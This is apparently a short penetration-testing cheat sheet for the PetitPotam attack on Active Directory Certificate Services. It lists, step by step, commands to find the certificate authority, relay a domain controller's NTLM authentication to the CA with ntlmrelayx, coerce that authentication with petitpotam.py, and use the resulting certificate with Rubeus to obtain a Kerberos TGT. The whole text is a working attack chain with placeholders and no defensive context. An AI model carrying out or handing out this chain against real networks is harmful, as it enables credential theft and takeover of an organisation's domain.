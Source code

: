 ### Source
https://github.com/ollypwn/PetitPotam  

### Find certificate autthority
```
certutil.exe
```

### Set up ntlm relay (forward incoming authentication from domain controller to certificate authority)
```
python3 ntlmrelayx.py -t http://<certificateAuthority>/certsrv/certfnsh.asp -smb2support --adcs
```

### Trigger authentication from domain controller
```
python3 petitpotam.py '<lhost>' '<domainController>'
```

### Request kerberos TGT
```
Rubeus.exe asktgt /outfile:<file> /user:<domainController> /ptt /certificate:<base64Certificate>
```

